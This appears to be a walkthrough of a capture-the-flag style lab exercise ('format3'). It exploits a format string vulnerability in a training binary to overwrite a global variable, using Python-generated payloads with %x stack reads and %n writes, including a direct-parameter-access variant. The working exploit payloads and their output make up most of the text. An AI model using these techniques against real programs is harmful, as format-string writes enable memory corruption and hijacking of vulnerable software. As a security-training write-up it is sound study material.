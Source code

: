 Now we need to write 4 bytes instead of one byte.

objdump -t format3 | grep target
080496f4 g     O .bss	00000004              target

Determine offset:

$ python -c "print 'AAAA' + '%x.'*11 + '%x'" | ./format3
AAAA0.bffff5c0.b7fd7ff4.0.0.bffff7c8.804849d.bffff5c0.200.b7fd8420.bffff604.41414141
target is 00000000 :(


Set byte to 0x44:

$ python -c "print '\xf4\x96\x04\x08' + '%x'*10 + '%11x' + '%n'" | ./format3
0bffff5c0b7fd7ff400bffff7c8804849dbffff5c0200b7fd8420   bffff604


Now just set all bytes to specific values rotating byte with '%<number>u'

$ python -c "print '\xf4\x96\x04\x08CRAP\xf5\x96\x04\x08CRAP\xf6\x96\x04\x08CRAP\xf7\x96\x04\x08' + '%x.'*10 + '%233u%n' + '%17u%n' + '%173u%n' + '%255u%n'" | ./format3
CRAPCRAPCRAP0.bffff5c0.b7fd7ff4.0.0.bffff7c8.804849d.bffff5c0.200.b7fd8420.                                                                                                                                                                                                                               3221222916       1346458179                                                                                                                                                                   1346458179                                                                                                                                                                                                                                                     1346458179
you have modified the target :)




Or using Direct Parameter Access:

$ python -c "print '\xf4\x96\x04\x08' + '\xf5\x96\x04\x08' + '\xf6\x96\x04\x08' + '\xf7\x96\x04\x08' + '%52x%12\$n' + '%17x%13\$n' + '%173x%14\$n'" | ./format3
                                                   0         bffff5c0                                                                                                                                                                     b7fd7ff4
you have modified the target :)
